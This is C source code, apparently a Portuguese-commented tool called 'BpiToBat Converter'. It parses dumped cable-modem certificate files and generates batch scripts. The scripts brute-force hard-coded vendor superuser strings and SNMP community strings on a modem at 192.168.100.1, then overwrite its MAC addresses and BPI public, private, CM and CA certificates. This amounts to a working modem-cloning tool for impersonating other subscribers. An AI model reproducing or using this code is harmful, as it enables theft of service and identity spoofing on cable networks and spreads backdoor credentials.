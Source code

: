 # bin-to-tab
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

FILE * FI;
FILE *fp;
FILE *fp5;

char hfcmac[20]="";
char cPublic[350]="";
char cPrivat[1500]="";
char cCm[2000]="";
char cCa[3000]="";
int iPublic;
int iPrivat;
int iCm;
int i=0;
char arquivo[20]="";
char Dir[5000]="";
int getCert();
int DirList();
void salvar();
void TratCert();
void clear();

int main(){
	system("title BpiToBat Converter    by Clow ");
	system("@echo off");
	system("color b1");
	while(DirList()==0){
		getCert();
    	TratCert();
    	salvar();
    	clear();
		//system("pause");
	}
}

int getCert(){
	FI = fopen (arquivo, "rb");
    if(!FI){
    	printf("erro ao abrir %s",arquivo);
    	system("timeout 3");
    	system("exit");
    	return 1;
	}
	int ia=0, ib=0;
	char string[8] ="";
	//Lendo Cabeçalho
	fread(&string,1,8,FI);
	
	//Lendo indice do Public
	fread(&ia,1,1,FI);
	fread(&ib,1,1,FI);
	if(ia>=256){
		ia-=256;
	}
	if(ib>=256){
		ib-=256;
	}
	sprintf(string,"%x%x",ia,ib);
	int indice = (int)strtol(string, NULL, 16);
	iPublic = indice;
	//printf("indice: %x\tia: %d\tib: %d\n",indice,ia,ib);
	//Lendo Certificado Public
	ia=0;
	for(ia;ia<indice;ia++){
		fread(&ib,1,1,FI);
		sprintf(cPublic,"%s%2x",cPublic,ib);
	}
	
	//Lendo indice do Privat
	ia=0;
	ib=0;
	fread(&ia,1,1,FI);
	fread(&ib,1,1,FI);
	if(ia>=256){
		ia-=256;
	}
	if(ib>=256){
		ib-=256;
	}
	sprintf(string,"%x%x",ia,ib);
	indice = (int)strtol(string, NULL, 16);
	iPrivat = indice;
	//printf("indice: %x\tia: %x\tib: %x\n",indice,ia,ib);
	
	//Lendo Certificado Privat
	ia=0;
	for(ia;ia<indice;ia++){
		fread(&ib,1,1,FI);
		sprintf(cPrivat,"%s%2x",cPrivat,ib);
	}
	
	//Pulando Root
	ia=0;
	for(ia;ia<272;ia++){
		fread(&ib,1,1,FI);
	}
	
	//Lendo indice do Cm
	ia=0;
	ib=0;
	fread(&ia,1,1,FI);
	fread(&ib,1,1,FI);
	if(ia>=256){
		ia-=256;
	}
	if(ib>=256){
		ib-=256;
	}
	sprintf(string,"%x%x",ia,ib);
	indice = (int)strtol(string, NULL, 16);
	iCm = indice;
	//printf("indice: %x\tia: %x\tib: %x\n",indice,ia,ib);
	//Lendo Certificado Cm
	ia=0;
	for(ia;ia<indice;ia++){
		fread(&ib,1,1,FI);
		sprintf(cCm,"%s%2x",cCm,ib);
	}
	
	//Lendo indice do Ca
	ia=0;
	ib=0;
	fread(&ia,1,1,FI);
	fread(&ib,1,1,FI);
	if(ia>=256){
		ia-=256;
	}
	if(ib>=256){
		ib-=256;
	}
	sprintf(string,"%x%x",ia,ib);
	indice = (int)strtol(string, NULL, 16);
	//printf("indice: %x\tia: %x\tib: %x\n",indice,ia,ib);
	//Lendo Certificado Ca
	ia=0;
	for(ia;ia<indice;ia++){
		fread(&ib,1,1,FI);
		sprintf(cCa,"%s%2x",cCa,ib);
	}
	fclose(FI);
	//sprintf(Dir,"del %s",arquivo);
	//system(Dir);
}

int DirList(){
	FILE *Dr;
	system("dir /B /O:E /O:N Certs >Dir.txt");
	char arquivo2[51];
	Dr = fopen("Dir.txt", "r");
	fgets( arquivo2, 50, Dr );
	arquivo2[strlen(arquivo2)-1]='\0';
	do{
		if(arquivo2[strlen(arquivo2)-1]=='n'){
			sprintf(arquivo,"%s",arquivo2);
			sprintf(hfcmac,"%s",arquivo);
			hfcmac[12]='\0';
			sprintf(arquivo2,"copy Certs\\%s >>NULL ",arquivo);
			system(arquivo2);
			sprintf(arquivo2,"del Certs\\%s",arquivo);
			system(arquivo2);
			return 0;
		}
		fgets(arquivo2, 50, Dr );
	}while(!feof(Dr));
	fclose(Dr);
	printf("Arquivos .bin nao encontrados!\n");
	system("timeout 3 >>NULL");
	system("del NULL");
	system("del Dir.txt");
	
	return 1;
}

void TratCert(){
	for(i=0;i<strlen(cPublic);i++){
		if(cPublic[i]==' '){
			cPublic[i]='0';
		}
	}
	for(i=0;i<strlen(cPrivat);i++){
		if(cPrivat[i]==' '){
			cPrivat[i]='0';
		}
	}
	for(i=0;i<strlen(cCm);i++){
		if(cCm[i]==' '){
			cCm[i]='0';
		}
	}
	for(i=0;i<strlen(cCa);i++){
		if(cCa[i]==' '){
			cCa[i]='0';
		}
	}
}

void salvar(){
		//Criando diretorios
		printf("%s.bin Completo\n",hfcmac);
		sprintf(Dir,"mkdir out\\%s >>NULL",hfcmac);
		system(Dir);
		//Criando arquivos de saida
		sprintf(Dir,"out\\%s\\%s.bat",hfcmac,hfcmac);
		fp = fopen(Dir , "w" );
		sprintf(Dir,"out\\%s\\%s_5100.bat",hfcmac,hfcmac);
		fp5 = fopen(Dir , "w" );
		
		//Cabeçalho xxx
		sprintf(Dir,"echo off\ncolor b1\ncls\nset /a tr =1\n:_fc\ntitle Acessando como Super Usuario... (Try: %%tr%%)\nset /a tr=(tr+1)\nsnmpset -v2c -c public 192.168.100.1 1.3.6.1.4.1.4413.2.99.1.1.1.2.1.2.1 s humax@!0416 > fc.txt\ncls\nset /p fc=<=\"fc.txt\"\ndel fc.txt\nif \"%%fc%%\" == \"SNMPv2-SMI::enterprises.4413.2.99.1.1.1.2.1.2.1 = STRING: \"humax@!0416\"\" goto _ok\ntimeout 1 > NUL\nsnmpset -v2c -c public 192.168.100.1 1.3.6.1.4.1.4413.2.99.1.1.1.2.1.2.1 s password > fc.txt\ncls\nset /p fc=<=\"fc.txt\"\ndel fc.txt\nif \"%%fc%%\" == \"SNMPv2-SMI::enterprises.4413.2.99.1.1.1.2.1.2.1 = STRING: \"password\"\" goto _ok\ntimeout 1 > NUL\ngoto _fc\n:_ok\nsnmpset -v2c -c gesCM1 192.168.100.1 1.3.6.1.4.1.4413.2.99.1.1.1.1.0 i 2\ncls\ntitle Escrevendo novos MACs...\n");
		fwrite(Dir , 1 , strlen(Dir) , fp );
		//Cabeçalho 5100
		sprintf(Dir,"echo off\ncolor b1\ncls\ntitle Escrevendo novos MACs...\n");
		fwrite(Dir , 1 , strlen(Dir) , fp5 );
		
		//HFCMAC xxx
		sprintf(Dir,"snmpset -Ov -Oq -OT -v2c -c public 192.168.100.1 1.3.6.1.4.1.4413.2.99.1.1.2.1.4.1.2.1 x %s\n",hfcmac);
		fwrite(Dir , 1 , strlen(Dir) , fp );
		//HFCMAC 5100
		sprintf(Dir,"snmpset -Ov -Oq -OT -v2c -c public 192.168.100.1 1.3.6.1.4.1.1166.1.19.4.4.0 x %s\n",hfcmac);
		fwrite(Dir , 1 , strlen(Dir) , fp5 );
		
		//MOD do mac
		Dir[0]=hfcmac[11];
		Dir[1]='\0';
		int xx = (int)strtol(Dir, NULL, 16);
		hfcmac[11]='\0';
		
		//incremento e condicional
		xx++;
		if(xx>=16) xx=0;
		
		//ETHMAC XX
		sprintf(Dir,"snmpset -Ov -Oq -OT -v2c -c public 192.168.100.1 1.3.6.1.4.1.4413.2.99.1.1.2.1.4.1.2.2 x %s%x\n",hfcmac,xx);
		fwrite(Dir , 1 , strlen(Dir) , fp );
		//ETHMAC 5100
		sprintf(Dir,"snmpset -Ov -Oq -OT -v2c -c public 192.168.100.1 1.3.6.1.4.1.1166.1.19.4.3.0 x %s%x",hfcmac,xx);
		fwrite(Dir , 1 , strlen(Dir) , fp5 );
		
		
		//incremento e condicional
		xx++;
		if(xx>=16) xx=0;
		
		//WANMAC XX
		sprintf(Dir,"snmpset -Ov -Oq -OT -v2c -c public 192.168.100.1 1.3.6.1.4.1.4413.2.99.1.1.2.1.4.1.2.3 x %s%x\n",hfcmac,xx);
		fwrite(Dir , 1 , strlen(Dir) , fp );
		
		//Public xx
		sprintf(Dir,"\ntimeout 1 > NULL\ncls\ntitle Escrevendo novo certificado Puplic...\nsnmpset -Ov -Oq -OT -v2c -c gesCM1 192.168.100.1 1.3.6.1.4.1.4413.2.99.1.1.2.2.2.1.0 x %s",cPublic);
		fwrite(Dir , 1 , strlen(Dir) , fp );
		//Public 5100
		while(strlen(cPublic)!=320){
			strcat(cPublic,"0");
		}
		sprintf(Dir,"\ntimeout 1 > NULL\ncls\ntitle Escrevendo novo certificado Puplic...\nsnmpset -Ov -Oq -OT -v2c -c public 192.168.100.1 1.3.6.1.4.1.1166.1.19.4.50.0 x 00%x%s",iPublic, cPublic);
		fwrite(Dir , 1 , strlen(Dir) , fp5 );
		
		//Privat xx
		sprintf(Dir,"\ntimeout 1 > NULL\ncls\ntitle Escrevendo novo certificado Privat...\nsnmpset -Ov -Oq -OT -v2c -c gesCM1 192.168.100.1 1.3.6.1.4.1.4413.2.99.1.1.2.2.2.2.0 x %s",cPrivat);
		fwrite(Dir , 1 , strlen(Dir) , fp );
		//Privat 5100
		while(strlen(cPrivat)!=1296){
			strcat(cPrivat,"0");
		}
		sprintf(Dir,"\ntimeout 1 > NULL\ncls\ntitle Escrevendo novo certificado Privat...\nsnmpset -Ov -Oq -OT -v2c -c public 192.168.100.1 1.3.6.1.4.1.1166.1.19.4.51.0 x 0%x%s",iPrivat, cPrivat);
		fwrite(Dir , 1 , strlen(Dir) , fp5 );
		
		//CM XX
		sprintf(Dir,"\ntimeout 1 > NULL\ncls\ntitle Escrevendo novo certificado CM...    \nsnmpset -Ov -Oq -OT -v2c -c gesCM1 192.168.100.1 1.3.6.1.4.1.4413.2.99.1.1.2.2.2.4.0 x %s",cCm);
		fwrite(Dir , 1 , strlen(Dir) , fp );
		//CM 5100
		while(strlen(cCm)!=1828){
			strcat(cCm,"0");
		}
		sprintf(Dir,"\ntimeout 1 > NULL\ncls\ntitle Escrevendo novo certificado CM...    \nsnmpset -Ov -Oq -OT -v2c -c public 192.168.100.1 1.3.6.1.4.1.1166.1.19.4.52.0 x 0%x%s",iCm, cCm);
		fwrite(Dir , 1 , strlen(Dir) , fp5 );
		
		//CA xx
		sprintf(Dir,"\ntimeout 1 > NULL\ncls\ntitle Escrevendo novo certificado Ca...    \nsnmpset -Ov -Oq -OT -v2c -c gesCM1 192.168.100.1 1.3.6.1.4.1.4413.2.99.1.1.2.2.2.5.0 x %s",cCa);
		fwrite(Dir , 1 , strlen(Dir) , fp );
		
		//Fim
		sprintf(Dir,"\ntimeout 1 > NULL\ncls\ntitle Reiniciando...\nsnmpset -Ov -Oq -OT -v2c -c public 192.168.100.1 1.3.6.1.2.1.69.1.1.3.0 i 1\ntimeout 1 > NULL\ncls\necho FIM by Cl0W\ntimeout 3 > NUL\ndel NULL");
		fwrite(Dir , 1 , strlen(Dir) , fp );
		fwrite(Dir , 1 , strlen(Dir) , fp5 );
		fclose(fp);
		fclose(fp5);
		
		
		
		
		
}

void clear(){
	sprintf (hfcmac,"");
	sprintf (cPublic,"");
    sprintf (cPrivat,"");
    sprintf (cCm,"");
	sprintf (cCa,"");
	i=0;
	sprintf (arquivo,"");
	sprintf (Dir,"");
}
